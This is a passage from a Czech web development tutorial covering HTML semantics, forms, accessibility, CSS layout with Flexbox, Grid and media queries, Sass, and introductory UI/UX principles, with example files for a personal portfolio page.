- Po otevření tohoto souboru v prohlížeči uvidíme základní stránku s nadpisem a odstavcem.
- 
---
##### 4.1.1.1 Analýza základní struktury
- Pojďme si rozebrat jednotlivé řádky:
	- `<!DOCTYPE html>`: **Deklarace typu dokumentu**. Říká prohlížeči, že se jedná o moderní HTML5 dokument.
	- `<html lang="cs">...</html>`: **Kořenový element** celého dokumentu. Atribut `lang="cs"` specifikuje jazyk obsahu, což je důležité pro SEO a nástroje přístupnosti.
	- `<head>...</head>`: **Hlavička** dokumentu. Obsahuje metadata – informace _o_ stránce, které nejsou přímo viditelné v obsahu.
	    - `<meta charset="UTF-8">`: Definuje kódování znaků. UTF-8 je standard, který zajišťuje správné zobrazení diakritiky.
	    - `<meta name="viewport" ...>`: Klíčový meta tag pro **responzivní design**. Říká mobilním zařízením, aby stránku zobrazila ve své skutečné šířce.
	    - `<title>...</title>`: Definuje titulek stránky, který se zobrazuje v záložce (tabu) prohlížeče.
	- `<body>...</body>`: **Tělo** dokumentu. Tento element obsahuje veškerý viditelný obsah, který prohlížeč vykreslí – text, obrázky, tabulky, formuláře atd.
		- `<h1>...</h1>`: Element pro **nadpis první úrovně**.
		- `<p>...</p>`: Element pro **odstavec** (paragraf).
- Většina HTML elementů je párová – skládá se z otevírací značky (např. `<p>`) a uzavírací značky (např. `</p>`).
---
#### 4.1.2 Strukturování obsahu
- HTML poskytuje širokou škálu elementů pro sémantické strukturování textového obsahu.
- **Nadpisy:** `<h1>` až `<h6>` Definují hierarchii dokumentu. `<h1>` je nejvyšší úroveň (hlavní titulek stránky, měl by být pouze jeden) a `<h6>` nejnižší.
```html
    <h1>Hlavní téma</h1>
    <p>Text k hlavnímu tématu...</p>
    <h2>Podtéma 1</h2>
    <p>Text k podtématu...</p>
```
- **Seznamy:** **Nečíslovaný seznam** (Unordered List - `<ul>`) se používá pro položky, na jejichž pořadí nezáleží. Položky se definují značkou `<li>` (List Item).
```html
    <ul>
      <li>Položka A</li>
      <li>Položka B</li>
    </ul>
```
- **Číslovaný seznam** (Ordered List - `<ol>`) se používá pro položky, kde je pořadí důležité.
```html
    <ol>
      <li>Krok 1: Příprava</li>
      <li>Krok 2: Provedení</li>
    </ol>
```
- **Odkazy (Anchors):** Odkazy (`<a>`) jsou základem hypertextu. Klíčový je atribut `href` (Hypertext Reference), který určuje cíl odkazu.
```html
    <a href="[https://www.google.com](https://www.google.com)">Hledat na Google</a>
    
    <a href="/o-nas.html">O naší firmě</a>
```
- **Textová sémantika:**
    - `<strong>...</strong>`: Označuje text se **silnou důležitostí** (významově, ne jen vizuálně).
    - `<em>...</em>`: Označuje text s **důrazem** (emphasis).
    - `<b>...</b>` vs `<i>...</i>`: Na rozdíl od `<strong>` a `<em>` jsou tyto značky primárně pro vizuální odlišení (tučné, kurzíva) bez přidání sémantického významu.
    - `<br>`: Vloží zalomení řádku. Jde o **prázdný (nebo samo-uzavírací) element**.
    - `<hr>`: Vytvoří tematický předěl (horizontální čáru). Také prázdný element.
---
#### 4.1.3 Media (obrázky, video, audio)
- Pro vkládání multimediálního obsahu existují specializované elementy.
- **Obrázky:** `` Element `` je prázdný. Vyžaduje minimálně dva atributy:
    1. `src` (Source): Cesta k souboru obrázku.
    2. `alt` (Alternative text): Popis obrázku. **Je kriticky důležitý pro přístupnost** (čtečky obrazovek) a SEO. Zobrazí se také, pokud se obrázek nenačte.
```html
    
```
    
> [!Note]
> Udávání atributů `width` a `height` je dobrá praxe. Pomáhá prohlížeči rezervovat místo pro obrázek ještě před jeho načtením, čímž zabraňuje "poskakování" layoutu (Layout Shift).

- **Video a Audio:** Tyto elementy jsou párové a umožňují vložení video a audio přehrávačů. Atribut `controls` zpřístupní uživateli standardní ovládací prvky.
```html
    <video src="media/promo.mp4" controls width="640">
      Váš prohlížeč nepodporuje HTML5 video.
    </video>
    
    <audio src="media/skladba.mp3" controls>
      Váš prohlížeč nepodporuje HTML5 audio.
    </audio>
```    

>[!note]
>Pro zajištění kompatibility napříč prohlížeči se často používá vnořený element `<source>`, který umožňuje specifikovat více formátů souboru.

---
#### 4.1.4 Formuláře
- Formuláře (`<form>`) jsou klíčovým prvkem pro sběr uživatelského vstupu.
- `<form>`: Obaluje celou skupinu formulářových prvků. Atribut `action` specifikuje URL, kam se data odešlou, a `method` (typicky `GET` nebo `POST`) určuje HTTP metodu.
- `<label>`: Popisek pro formulářový prvek. Pro zajištění přístupnosti je klíčové propojit `label` s `input`em pomocí atributu `for`, který odpovídá `id` daného `input`u.
- `<input>`: Univerzální vstupní prvek. Jeho chování se mění atributem `type`:
    - `type="text"`: Standardní textové pole.
    - `type="email"`: Pole pro e-mail s vestavěnou validací formátu.
    - `type="password"`: Pole pro heslo, kde je vstup maskován.
    - `type="checkbox"`: Zaškrtávací políčko.
    - `type="radio"`: Přepínač (vždy ve skupině se stejným `name`).
    - `type="submit"`: Tlačítko, které odešle formulář.
	- `name`: Tento atribut je zásadní. Definuje "jméno" dat, které se odešle na server (např. `name="uzivatelske_jmeno"`).
- `<textarea>`: Víceřádkové textové pole.
- `<button type="submit">...</button>`: Flexibilnější varianta odesílacího tlačítka.
```html
<form action="/api/kontakt" method="POST">
    <div>
        <label for="frm-email">E-mail:</label>
        <input type="email" id="frm-email" name="email_address" required>
    </div>
    <div>
        <label for="frm-zprava">Zpráva:</label>
        <textarea id="frm-zprava" name="message_body" rows="5"></textarea>
    </div>
    <div>
        <button type="submit">Odeslat dotaz</button>
    </div>
</form>
```
---
#### 4.1.5 Best practices (sémantika, přístupnost)
- Kvalita HTML kódu se nehodnotí podle toho, jak vypadá, ale podle jeho **sémantické správnosti** a **přístupnosti**.
---
##### 4.1.5.1 Sémantika
- Sémantické HTML znamená používání HTML elementů v souladu s jejich **významem**, nikoli pouze pro dosažení vizuálního efektu.
	- **Špatně (nesémanticky):** `<div class="nadpis">Novinky</div>` (Jen proto, že to přes CSS nastylujeme jako nadpis).
	- **Správně (sémanticky):** `<h2>Novinky</h2>` (Element má správný význam – je to nadpis 2. úrovně).
- **Proč?** Sémantický kód je lépe čitelný pro:
	1. **Vyhledávače (SEO):** Google lépe rozumí struktuře vašeho obsahu.
	2. **Nástroje přístupnosti:** Čtečky obrazovek pro nevidomé se spoléhají na sémantiku při navigaci.
	3. **Vývojáře:** Kód je přehlednější a snadněji udržovatelný.
- Kromě základních značek máme i elementy pro rozvržení stránky, které nahrazují generické `<div>` kontejnery:
	- `<header>`: Hlavička stránky (logo, hlavní navigace).
	- `<nav>`: Blok určený pro hlavní navigaci.
	- `<main>`: Definuje hlavní, unikátní obsah stránky.
	- `<section>`: Logická sekce dokumentu (např. "Naše služby", "Reference").
	- `<article>`: Samostatný, ucelený kus obsahu (blogový příspěvek, novinový článek).
	- `<footer>`: Patička stránky (copyright, doplňkové odkazy).
	- `<div>` a `<span>`: Jsou "nesémantické" kontejnery, které používáme pro stylování nebo seskupování, když žádný jiný sémantický element nedává smysl.
---
##### 4.1.5.2 Přístupnost (Accessibility, a11y)
- Přístupnost (a11y) je disciplína zajišťující, aby webové aplikace mohl plnohodnotně používat kdokoli, bez ohledu na jeho fyzické či kognitivní schopnosti.
- Základní pilíře přístupnosti v HTML:
	1. **Sémantika:** Používejte správné elementy (`<nav>`, `<button>` atd.).
	2. **Atributy `alt`:** Vždy vyplňujte `alt` text u obrázků.
	3. **Propojení `label` a `input`:** U formulářů důsledně používejte `for` a `id`.
	4. **Hierarchie nadpisů:** Nepřeskakujte úrovně (např. z `<h1>` rovnou na `<h3>`).
---
#### 4.1.6 Mini-projekt: jednoduchý osobní web
- Aplikujte získané znalosti v malém praktickém projektu. Vytvořte nový soubor `o-mne.html`, který bude obsahovat:
	1. Korektní základní strukturu (`<!DOCTYPE>`, `<html>`, `<head>`, `<body>`).
	2. Hlavní nadpis `<h1>` s vaším jménem.
	3. Krátký odstavec `<p>` popisující vás.
	4. Obrázek (``) s vyplněným `src` a `alt` atributem.
	5. Podnadpis `<h2>` (např. "Moje dovednosti").
	6. Nečíslovaný seznam `<ul>` vašich dovedností nebo koníčků.
	7. Odkaz `<a>` na váš profesní profil (např. LinkedIn nebo GitHub).
- Soustřeďte se výhradně na korektní sémantickou strukturu. Vizuální stránkou se budeme zabývat v následující kapitole o CSS.
---
- Příklad:
`soubor: index.html`
```html
<html lang="cs"><head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Martin Novan - Profil webového vývojáře a tvůrce</title>
</head>
<body>
    <header>
        <h1>Martin Novan</h1>
        <p>Ahoj! Vítejte na mém webovém profilu.</p>
    </header>
    <main>
        <section>
            <h2>O mně a mých zájmech</h2>
            <p>Jsem vývojář, který se zaměřuje na robustní a čistá softwarová řešení. Neustále rozšiřuji své dovednosti v oblasti moderních frameworků a operačních systémů.</p>
            
            <p>Aktuálně se v rámci osobních projektů intenzivně věnuji technologiím jako je **.NET MAUI**, **Avalonia UI** a skriptování pro **3D tiskárny (Klipper)**.</p>
        </section>
        <section>
            <h2>Technický Stack a Dovednosti</h2>
            <ul>
                <li><strong>Jazyky:</strong> C#, Python, SQL, HTML, CSS, JavaScript.</li>
                <li><strong>Frameworky / UI:</strong> .NET, WPF, AvaloniaUI, MAUI.</li>
                <li><strong>Databáze:</strong> MySQL, SQL, Microsoft SQL.</li>
                <li><strong>OS/Nástroje:</strong> Arch Linux, Klipper (Firmware).</li>
            </ul>
        </section>
        <section>
            <h2>Vybrané projekty</h2>
            <article>
                <h3>Simple Virtual PC Management (SVPM)</h3>
                <p>Nástroj pro správu virtuálních PC, zákazníků a jejich vztahů. Systém zahrnuje komplexní <strong>Customer Management</strong>, správu konfigurací, auditování změn a zabezpečení integrity dat pomocí **Hash Verification**.</p>
            </article>
            <article>
                <h3>Endeaxim-3 (Hardware Upgrade Kit)</h3>
                <p>Komplexní upgrade kit pro 3D tiskárnu Creality Ender 3. Projekt zahrnuje **Hardware Upgrades** (Dual Z-axis, Linear Rail), implementaci **Klipper Firmware** na Raspberry Pi a optimalizaci pro vysoké rychlosti. K dispozici jsou také **STEP soubory** pro precizní modely.</p>
            </article>
        </section>
    </main>
    <footer>
        <nav>
            <p>Najdete mě zde:</p>
            <ul>
                <li><a href="https://github.com/MartinNovan" target="_blank">GitHub Profil (My Repositories)</a></li>
            </ul>
        </nav>
        <p>© 2025 Martin Novan. Všechna práva vyhrazena.</p>
    </footer>
</body>
</html>
```
- 
---
### 4.2 CSS – Vzhled a Design
- CSS je jazyk, který popisuje **prezentaci** dokumentu napsaného v HTML. Zatímco HTML definuje **co** na stránce je, CSS definuje **jak** se to má uživateli zobrazit (barvy, písma, rozměry, pozice).
- Představme si to takto: HTML je hrubý textový dokument. CSS jej promění v uživatelské rozhraní.
---
#### 4.2.1 Jak funguje CSS
- CSS kód se skládá z **pravidel** (rules), kde každé pravidlo má:
	1. **Selektor:** Cílí na konkrétní HTML element nebo skupinu elementů.
	2. **Deklarační blok:** Obsahuje jednu nebo více **deklarací**.
	    - **Vlastnost (Property):** Co chceme měnit (např. `color`).
	    - **Hodnota (Value):** Jakou hodnotu má vlastnost dostat (např. `blue`).
```css
/* Selektor cílí na všechny elementy <h1> */
h1 {
    /* Deklarace 1: Vlastnost: barva, Hodnota: modrá */
    color: blue; 
    /* Deklarace 2: Vlastnost: velikost písma, Hodnota: 32 pixelů */
    font-size: 32px; 
}
```
- CSS kód umisťujeme buď:
	- **Inline:** Přímo do atributu `style` v HTML elementu (nedoporučeno pro profesionální vývoj).
	- **Interní:** Do bloku `<style>` v `<head>` HTML dokumentu.
	- **Externí:** Do samostatného souboru (`style.css`), který je připojen v `<head>` pomocí `<link rel="stylesheet" href="style.css">` (standardní a **doporučovaný postup**).
---
#### 4.2.2 Selektory, Kaskáda, Specifita
- Základem efektivní práce s CSS je pochopení, **jak a proč** se styly aplikují.
---
##### 4.2.2.1 Selektory
- Selektory umožňují cílit na přesné elementy, které chceme stylovat:

|**Typ Selektoru**|**Příklad**|**Popis**|
|---|---|---|
|**Element**|`p { ... }`|Cílí na **všechny** elementy `<p>`.|
|**Třída**|`.karta { ... }`|Cílí na elementy s atributem `class="karta"`. **Nejčastěji používaný typ.**|
|**ID**|`#logo { ... }`|Cílí na **jediný** element s atributem `id="logo"`.|
|**Potomek**|`div p { ... }`|Cílí na elementy `<p>`, které jsou **uvnitř** elementu `<div>`.|
|**Atribut**|`input[type="text"] { ... }`|Cílí na elementy `<input>` s konkrétním atributem.|

---
##### 4.2.2.2 Kaskáda (The Cascade)
- "Cascading" v názvu CSS znamená, že styly se **překrývají a slučují** z různých zdrojů (např. styl prohlížeče, styl uživatele, náš styl). Proces řešení konfliktů se řídí pravidly kaskády, která určují pořadí, v jakém se styly aplikují.
	- **Pravidlo:** Pozdější pravidla přepisují ta dříve definovaná. (Pokud v `style.css` definujeme barvu odstavce červenou a v navazujícím `theme.css` modrou, bude finální barva modrá).
---
##### 4.2.2.3 Specifita (Specificity)
- Pokud se dva různé selektory snaží stylovat stejnou vlastnost stejného elementu, rozhoduje **specifita** (váha) selektoru. Čím je selektor přesnější, tím je jeho váha vyšší a jeho pravidlo má přednost.
- **Váha selektorů (od nejvyšší po nejnižší):**
    1. **Inline styl** (Nejvyšší váha).
    2. **ID** (`#logo`).
    3. **Třídy**, pseudo-třídy a atributy (`.karta`, `[type="text"]`).
    4. **Elementy** (`p`, `h1`).
    
> [!Note] **Příklad konfliktu:** 
> Styl definovaný pomocí `.telo` vždy přepíše styl definovaný pouze elementem `body`, protože selektor třídy má vyšší specifitu než selektor elementu.

---
####  4.2.3 Barvy, Typografie, Spacing, Box model
- Tyto vlastnosti tvoří základy vizuální konzistence a čitelnosti.
---
##### 4.2.3.1 Barvy
- Barvy lze definovat různými formáty:
	- **Hexadecimální:** `#ff5733` (Standard).
	- **RGB/RGBA:** `rgb(255, 87, 51)` / `rgba(255, 87, 51, 0.5)` (Poslední hodnota 'A' je **alfa kanál**, určuje průhlednost 0.0 - 1.0).
	- **Názvy:** `red`, `blue`.
---
##### 4.2.3.2 Typografie (Písmo)
- Elementy ovlivňující text:
	- `font-family`: Nastavuje rodinu písma (např. `Arial, sans-serif`). **Vždy uvádějte fallback písma!**
	- `font-size`: Velikost písma (`px`, `em`, `rem`).
	- `font-weight`: Tloušťka písma (`normal`, `bold`, nebo číselně 100-900).
	- `line-height`: Výška řádku (klíčové pro čitelnost).
	- `text-align`: Zarovnání textu (`left`, `center`, `right`).
---
##### 4.2.3.3 Spacing (Mezery)
- Pro kontrolu mezer mezi elementy se používají dva klíčové modely:
	1. **Padding (Vnitřní okraj):** Mezera mezi **obsahem** elementu a jeho **hranicí (border)**.
	2. **Margin (Vnější okraj):** Mezera **vně** hranice elementu, oddělující jej od okolních elementů.
---
##### 4.2.3.4 Box Model
- Každý HTML element je v CSS považován za obdélníkový box. **Box Model** definuje, jak se počítají celkové rozměry tohoto boxu:
$$\text{Celková šířka} = \text{šířka} + \text{padding-left} + \text{padding-right} + \text{border-left} + \text{border-right}$$
>[!Tip] **Tip:** 
>Používání vlastnosti `box-sizing: border-box;` ve vašem CSS zjednodušuje výpočty, protože pak platí, že šířka zahrnuje padding a border.

---
#### 4.2.4 Flexbox (`display: flex`)
- Flexbox (Flexibilní Box Model) je jednorozměrný layoutový systém určený pro **distribuci prostoru mezi položkami v jednom řádku nebo sloupci**. Je ideální pro tvorbu navigace, malých komponent a zarovnávání obsahu.
- **Koncept:**
	- **Flex kontejner:** Element, na který aplikujeme `display: flex;`.
	- **Flex položky:** Přímí potomci kontejneru.
- **Klíčové vlastnosti kontejneru:**
	- `flex-direction`: Definuje hlavní osu (`row` nebo `column`).
	- `justify-content`: Řídí zarovnání položek **podél hlavní osy** (např. `space-between`, `center`).
	- `align-items`: Řídí zarovnání položek **kolmo k hlavní ose** (např. `center`, `flex-start`).
```css
.navigace {
    display: flex; /* Udělá z elementu flex kontejner */
    justify-content: space-between; /* Rozprostře položky rovnoměrně */
}
```

---
#### 4.2.5 Grid (`display: grid`)
- CSS Grid je **dvourozměrný** layoutový systém, který umožňuje rozdělit prostor stránky na řádky a sloupce. Je ideální pro **celkové rozložení stránky** (layout), kde potřebujeme přesně definovat umístění velkých bloků (header, sidebar, footer).
- **Koncept:**
	- **Grid kontejner:** Element, na který aplikujeme `display: grid;`.
	- **Grid položky:** Přímí potomci kontejneru.
- **Klíčové vlastnosti kontejneru:**
	- `grid-template-columns`: Definuje sloupce a jejich šířky.
	- `grid-template-rows`: Definuje řádky a jejich výšky.
	- Jednotka **`fr` (fractional unit)**: Umožňuje automaticky rozdělit zbývající prostor mezi sloupce.
```css
.layout {
    display: grid;
    /* 3 sloupce: sidebar 200px, hlavní obsah zabere 2/3 volného místa, sidebar 1/3 */
    grid-template-columns: 200px 2fr 1fr;
    gap: 16px; /* Mezera mezi řádky a sloupci */
}
```

---
#### 4.2.6 Responzivita (`@media queries`)
- Responzivní design zajišťuje, že se web správně zobrazuje na všech zařízeních (mobily, tablety, desktopy). Klíčovým nástrojem jsou **Media Queries**.
- **Media Query** je pravidlo, které aplikuje styly, **pouze pokud je splněna určitá podmínka**.
	- **Pravidlo Mobile-First:** Doporučuje se nejprve stylovat pro mobilní zařízení (nejmenší obrazovky) a media queries používat pro styly, které se mají **přidat pro větší obrazovky**.
```css
/* Styly platné pro VŠECHNA zařízení (mobilní základ) */
.karta {
    width: 100%; /* Mobil: šířka 100% */
}

/* Styly, které se aplikují POUZE, když je šířka okna (viewport) alespoň 768px */
@media screen and (min-width: 768px) {
    .karta {
        width: 300px; /* Tablet a desktop: pevná šířka */
        float: left;
    }
}
```

>[!Note] **Zásada:** 
>Media queries se nejčastěji cílí na šířku (např. `min-width` nebo `max-width`) a umožňují nám měnit layout (např. přechod z vertikálního Flexboxu na horizontální Grid).

---
#### 4.2.7 Animace a Přechody (Transitions)
- CSS umožňuje plynulé vizuální efekty bez nutnosti JavaScriptu.
---
##### 4.2.7.1 Přechody (Transitions)
- Transitions umožňují plynulý přechod mezi dvěma stavy elementu (např. ze žluté barvy na modrou po najetí myší).
```css
.tlacitko {
    background-color: blue;
    transition: background-color 0.3s ease-in-out; /* Doba přechodu 0.3 sekundy */
}

.tlacitko:hover {
    background-color: darkblue; /* Změna se stane plynule */
}
```
---
##### 4.2.7.2 Animace (Animations)
- Animations umožňují definovat složitější sekvenci změn pomocí **Keyframes**.
	1. **Definice Keyframes:** Určuje, jaké vlastnosti a v jakých krocích se mají měnit.
	2. **Aplikace Animace:** Přiřazení definované animace elementu.
```css
/* 1. Definice animace */
@keyframes rotace {
    0%   { transform: rotate(0deg); }
    100% { transform: rotate(360deg); }
}

/* 2. Aplikace animace na element */
.ikona {
    animation-name: rotace;
    animation-duration: 2s; /* Trvání */
    animation-iteration-count: infinite; /* Opakování donekonečna */
    animation-timing-function: linear; /* Rychlostní křivka */
}
```

---
#### 4.2.8 Preprocesory (Sass)
- Sass (Syntactically Awesome Style Sheets) je **CSS preprocesor**. Jde o nástroj, který rozšiřuje CSS o funkce, které běžné CSS neumožňuje (např. proměnné, vnoření, mixiny).
	- **Proč Sass?** Umožňuje psát **organizovanější, modulárnější a efektivnější** CSS.
	- **Princip:** Kód píšeme v syntaxi Sass (`.scss` soubory) a následně jej **kompilátor** (compiler) převede zpět na čisté, standardní CSS (`.css`), kterému prohlížeče rozumí.
---
##### 4.2.8.1 Klíčové funkce Sass:
- **Proměnné:** Umožňují opakovaně používat hodnoty (např. barvy, fonty).
```scss
    $primarni-barva: #3498db;
    
    .hlavicka {
        background-color: $primarni-barva;
    }
```
- **Vnoření (Nesting):** Umožňuje vnořit selektory do sebe, což kopíruje hierarchii HTML.
```scss
    .navigace {
        padding: 20px;
    
        a { /* Bude zkompilováno na .navigace a */
            color: white;
    
            &:hover { /* Bude zkompilováno na .navigace a:hover */
                text-decoration: underline;
            }
        }
    }
```
- **Mixiny:** Umožňují vytvářet znovupoužitelné bloky CSS kódů (např. pro vendor prefixy nebo složité styly).
---
#### 4.2.9 Mini-projekt: Responzivní Osobní Web
- Nyní aplikujte své znalosti CSS na váš předchozí HTML projekt (`o-mne.html`).
- **Cíl:** Vytvořte soubor `style.css` a propojte jej s HTML. Stylujte web tak, aby byl **responzivní** a profesionální.
- **Požadavky:**
	1. **Základní styly:** Nastavte písmo, barvy pozadí a textu.
	2. **Flexbox:** Použijte Flexbox pro zarovnání prvků v hlavičce (`<header>` nebo `<nav>`).
	3. **Grid nebo Flexbox:** Použijte Grid nebo Flexbox k uspořádání sekcí s projekty (např. dva sloupce na desktopu).
	4. **Responzivita:** Pomocí **@media query** zajistěte, že na mobilních zařízeních (pod 768px) se sloupce z bodu 3 změní na **jeden sloupec** (`width: 100%`).
	5. **Přechod (Transition):** Přidejte jednoduchý `transition` na tlačítko nebo odkaz (např. při `hover` efektu).
---
- Příklad
`soubor: style.css`
```css
/* 1. ZÁKLADNÍ NASTAVENÍ (RESET) */ 
/* Zajišťuje, že se padding a border počítají dovnitř šířky elementu (border-box) */
*, *::before, *::after {
    box-sizing: border-box;
    margin: 0;
    padding: 0;
} 
/* Nastavení základního fontu a barvy pozadí / textu */
body {
    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
    line-height: 1.6;
    color: #333; /* Tmavá barva textu */
    background-color: #f4f4f9; /* Světle šedé pozadí */
} 
/* 2. TYPOGRAFIE A ZÁKLADNÍ VZHLED */ 
h1, h2, h3 {
    margin-bottom: 0.5em;
    line-height: 1.2;
    color: #007bff; /* Modrá jako primární barva */
} 
h1 {
    font-size: 2.5rem; /* Větší velikost pro hlavní nadpis */
    color: #f4f4f9; /* Světle šedá pro kontrast s modrým pozadím */
} 
h2 {
    font-size: 1.8rem;
    padding-top: 1em;
    border-bottom: 2px solid #ddd;
    margin-bottom: 1em;
} 
ul {
    list-style-type: disc;
    margin-left: 20px;
} 
/* Stylování obrázku */
img {
    max-width: 100%; /* Zajištění, že obrázek nepřeteče rodičovský kontejner */
    height: auto;
    border-radius: 8px; /* Jemné zaoblení rohů */
    margin: 15px 0;
    box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
} 
/* 3. ROZVRŽENÍ A FLEXBOX (LAYOUT) */ 
.container {
    /* Centrujeme obsah na stránce a dáváme mu maximální šířku */
    max-width: 1200px;
    margin: 0 auto;
    padding: 20px;
} 
header, footer {
    background-color: #007bff;
    color: white;
    padding: 1.5em 20px;
    text-align: center;
} 
/* Vytvoření kontejneru pro navigaci/patičku pomocí Flexboxu */
footer nav {
    display: flex;
    justify-content: center; /* Centrování obsahu (text a seznam) */
    align-items: center;
    flex-wrap: wrap; /* Umožní zalomení na malých obrazovkách */
    gap: 20px;
} 
footer nav ul {
    list-style: none; /* Odstranění odrážek */
    margin: 0;
    display: flex; /* Vodorovné zarovnání odkazů */
    gap: 20px;
} 
/* Vytvoření Flex/Grid kontejneru pro sekci Vybrané projekty */
#projekty-kontejner {
    display: flex; /* Flexbox je ideální pro karty */
    flex-direction: column; /* MOBILE-FIRST: ve výchozím stavu řadíme vertikálně (sloupec) */
    gap: 25px;
    margin-top: 20px;
} 
article {
    background-color: white;
    padding: 20px;
    border-left: 5px solid #007bff; /* Vizuální akcent */
    border-radius: 4px;
    box-shadow: 0 2px 4px rgba(0, 0, 0, 0.05);
} 
/* 4. RESPONZIVITA (@MEDIA QUERIES) */ 
/* Aplikuje se, když je šířka okna (viewport) alespoň 768px (Tablet a Desktop) */
@media screen and (min-width: 768px) {
    
    /* Změna layoutu projektů z vertikálního na horizontální pomocí Flexboxu */
    #projekty-kontejner {
        flex-direction: row; /* Změna na horizontální uspořádání */
    } 
    /* Každý projekt zabere polovinu dostupného místa */
    #projekty-kontejner article {
        flex: 1 1 45%; /* Flex: grow shrink basis (umožní růst/smrsknutí a základní velikost) */
    } 
    /* Větší padding na velkých obrazovkách */
    main section {
        padding: 40px 0;
    }
} 
/* 5. INTERAKTIVNÍ PRVKY (TRANSITIONS) */ 
/* Stylování odkazů */
a {
    color: white; /* Barva odkazu ve footeru */
    text-decoration: none;
    padding-bottom: 2px;
    border-bottom: 2px solid transparent; /* Průhledná čára pro hladký přechod */
    
    /* Nastavení přechodu pro barvu textu a podtržení */
    transition: color 0.3s ease-in-out, border-color 0.3s ease-in-out; 
} 
/* Efekt při najetí myší (hover) */
a:hover {
    color: #e2e6ea; /* Mírně světlejší barva */
    border-bottom: 2px solid #e2e6ea; /* Zviditelnění podtržení */
}
```

`soubor: index.html`
```html
<!DOCTYPE html>
<html lang="cs">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Martin Novan - Profil webového vývojáře a tvůrce</title>
    <link rel="stylesheet" href="style.css"> 
</head>
<body>
    <header class="container">
        <h1>Martin Novan</h1>
        <p>Ahoj! Vítejte na mém webovém profilu.</p>
    </header>
    <main class="container">
        <section>
            <h2>O mně a mých zájmech</h2>
            
            <p>Jsem vývojář, který se zaměřuje na robustní a čistá softwarová řešení. Neustále rozšiřuji své dovednosti v oblasti moderních frameworků a operačních systémů.</p>
            <p>Aktuálně se v rámci osobních projektů intenzivně věnuji technologiím jako je **.NET MAUI**, **Avalonia UI** a skriptování pro **3D tiskárny (Klipper)**.</p>
        </section>
        <section>
            <h2>Technický Stack a Dovednosti</h2>
            <ul>
                <li><strong>Jazyky:</strong> C#, Python, SQL, HTML, CSS, JavaScript.</li>
                <li><strong>Frameworky / UI:</strong> .NET, WPF, AvaloniaUI, MAUI.</li>
                <li><strong>Databáze:</strong> MySQL, SQL, Microsoft SQL.</li>
                <li><strong>OS/Nástroje:</strong> Arch Linux, Klipper (Firmware).</li>
            </ul>
        </section>
        <section>
            <h2>Vybrané projekty</h2>
            
            <div id="projekty-kontejner">
                
                <article>
                    <h3>Simple Virtual PC Management (SVPM)</h3>
                    <p>Nástroj pro správu virtuálních PC, zákazníků a jejich vztahů. Systém zahrnuje komplexní <strong>Customer Management</strong>, správu konfigurací, auditování změn a zabezpečení integrity dat pomocí **Hash Verification**.</p>
                </article>
                
                <article>
                    <h3>Endeaxim-3 (Hardware Upgrade Kit)</h3>
                    <p>Komplexní upgrade kit pro 3D tiskárnu Creality Ender 3. Projekt zahrnuje **Hardware Upgrades** (Dual Z-axis, Linear Rail), implementaci **Klipper Firmware** na Raspberry Pi a optimalizaci pro vysoké rychlosti. K dispozici jsou také **STEP soubory** pro precizní modely.</p>
                </article>
                
            </div> 
        </section>
    </main>
    <footer>
        <nav>
            <p>Najdete mě zde:</p>
            <ul>
                <li><a href="https://github.com/MartinNovan" target="_blank">GitHub Profil (My Repositories)</a></li>
            </ul>
        </nav>
        <p>© 2025 Martin Novan. Všechna práva vyhrazena.</p>
    </footer>
</body>
</html>
```
- Vzhled:
	- 
- Responsivita animace:
	- 

---
### 4.3 UI/UX pro web
- V předchozích kapitolách jsme se naučili, jak vytvořit strukturu stránky (HTML) a jak ji vizuálně nastylovat (CSS). Nyní se posuneme o úroveň výš. Nestačí, aby stránka *nějak* vypadala; musí také *skvěle fungovat* a být *příjemná na používání*.
- To nás přivádí k disciplínám **UI** a **UX**.
	* **UI (User Interface – Uživatelské rozhraní):** Je to, co uživatel **vidí**. Je to vizuální vrstva – rozložení, barvy, tlačítka, písmo. Je to "vzhled a dojem" (look and feel) aplikace. Náš `style.css` je v podstatě implementace UI.
	* **UX (User Experience – Uživatelský prožitek):** Je to, jak se uživatel **cítí** při používání aplikace. Je navigace logická? Najde rychle, co hledá? Je proces objednávky bezproblémový? Je to celkový prožitek, který UI pomáhá utvářet.
>[!Note] **Analogie:** 
>Představte si auto. **UI** je barva laku, tvar palubní desky, materiál potahů a design tlačítek. **UX** je pocit z jízdy, snadnost, s jakou najdeme ovládání klimatizace, a jistota, kterou cítíte při řízení. Můžete mít krásné auto (dobré UI), které se otřesně řídí (špatné UX). Naším cílem je obojí.

---
#### 4.3.1 Designové principy
- Dobré UI/UX není náhoda; řídí se osvědčenými principy, které pomáhají uživateli dosáhnout cíle bez frustrace.
	1.  **Konzistence (Consistency):**
		- Nejdůležitější princip. Tlačítko "Odeslat" by mělo vypadat stejně na každé stránce. Navigace by měla být vždy na stejném místě. Konzistence buduje důvěru a snižuje "kognitivní zátěž" – uživatel se nemusí na každé stránce učit něco nového.
	2.  **Hierarchie (Hierarchy):**
		- Vizuální hierarchie říká uživateli, co je nejdůležitější. V HTML jsme to dělali sémanticky (`<h1>` je důležitější než `<h2>`). V CSS toho dosahujeme velikostí písma, tloušťkou (`font-weight`) nebo barvou. Uživatelovo oko musí být přirozeně vedeno k nejdůležitější akci (např. "Koupit nyní").
	3.  **Zpětná vazba (Feedback):**
		- Uživatel musí vždy vědět, co se děje.
		    * Klikl na odkaz? Odkaz by měl změnit barvu (`:visited`).
		    * Najíždí na tlačítko? Tlačítko by mělo reagovat (`:hover`).
		    * Odeslal formulář? Musí vidět zprávu "Úspěšně odesláno" nebo "Chyba: E-mail je neplatný". Ticho je nejhorší UX.
	4.  **Jednoduchost a srozumitelnost (Clarity):**
		- Každý prvek na stránce by měl mít jasný účel. Pokud stránka vypadá přeplácaně, uživatel neví, co má dělat. Držte se pravidla: **"Don't make me think"** (Nenuťte mě přemýšlet).
	5.  **Bílé místo (White Space):**
		- Prostor *mezi* prvky (napsaný v CSS jako `margin` a `padding`) je stejně důležitý jako prvky samotné. Dává obsahu prostor "dýchat", zlepšuje čitelnost a pomáhá oddělovat logické celky.
---
#### 4.3.2 Barvy, kontrast, tón
- Barvy nejsou jen dekorace; jsou to mocné nástroje komunikace.
	* **Tón:** Volba barev nastavuje emocionální tón. Jasné, syté barvy působí energicky (vhodné pro startup nebo sport). Tlumené, tmavé tóny (jako v našem mini-projektu) působí profesionálně a technicky.
